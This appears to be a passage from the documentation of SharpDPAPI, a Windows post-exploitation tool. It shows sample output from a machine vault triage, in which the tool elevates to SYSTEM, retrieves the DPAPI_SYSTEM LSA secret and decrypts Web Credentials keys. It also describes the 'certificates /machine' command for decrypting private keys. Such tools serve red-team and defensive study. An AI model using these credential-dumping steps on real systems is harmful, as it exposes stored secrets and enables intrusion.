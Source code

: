       __                 _   _       _ ___
     (_  |_   _. ._ ._  | \ |_) /\  |_) |
     __) | | (_| |  |_) |_/ |  /--\ |  _|_
                    |
      v1.2.0


    [*] Action: Machine DPAPI Vault Triage

    [*] Elevating to SYSTEM via token duplication for LSA secret retrieval
    [*] RevertToSelf()

    [*] Secret  : DPAPI_SYSTEM
    [*]    full: DBA60EB802B6C4B42E1E450BB5781EBD0846E1BF6C88CEFD23D0291FA9FE46899D4DE12A180E76C3
    [*]    m/u : DBA60EB802B6C4B42E1E450BB5781EBD0846E1BF / 6C88CEFD23D0291FA9FE46899D4DE12A180E76C3

    [*] SYSTEM master key cache:

    {1e76e1ee-1c53-4350-9a3d-7dec7afd024a}:4E4193B4C4D2F0420E0656B5F83D03754B565A0C
    ...(snip)...


    [*] Triaging SYSTEM Vaults


    [*] Triaging Vault folder: C:\WINDOWS\System32\config\systemprofile\AppData\Local\Microsoft\Vault\4BF4C442-9B8A-41A0-B380-DD4A704DDB28

      VaultID            : 4bf4c442-9b8a-41a0-b380-dd4a704ddb28
      Name               : Web Credentials
        guidMasterKey    : {0bd732d9-c396-4f9a-a69a-508632c05235}
        size             : 324
        flags            : 0x20000000 (CRYPTPROTECT_SYSTEM)
        algHash/algCrypt : 32782/26128
        description      :
        aes128 key       : 74CE3D7BCC4D0C4734931041F6D00D09
        aes256 key       : B497F57730A2F29C3533B76BD6B33EEA231C1F51ED933E0CA1210B9E3A16D081

    ...(snip)...


#### certificates /machine

The **certificates /machine** command will use the machine certificate store to look for decryptable machine certificate private keys. `/mkfile:X` and `{GUID}:masterkey` are usable with the `/target:\[file|folder\]` command, otherwise SharpDPAPI will elevate to SYSTEM to retrieve the DPAPI_SYSTEM LSA secret which is then used to decrypt any found machine DPAPI masterkeys. These keys are then used to decrypt any found machine system encrypted DPAPI private certificate keys.

By default, only private keys linkable to an associated installed certificate are displayed. The `/showall` command will display ALL decrypted private keys.

Local administrative rights are needed (so we can retrieve the DPAPI_SYSTEM LSA secret).

    C:\Temp>SharpDPAPI.exe certificates /machine

      __                 _   _       _ ___
     (_  |_   _. ._ ._  | \ |_) /\  |_) |
     __) | | (_| |  |_) |_/ |  /--\ |  _|_
                    |
      v1.10.0
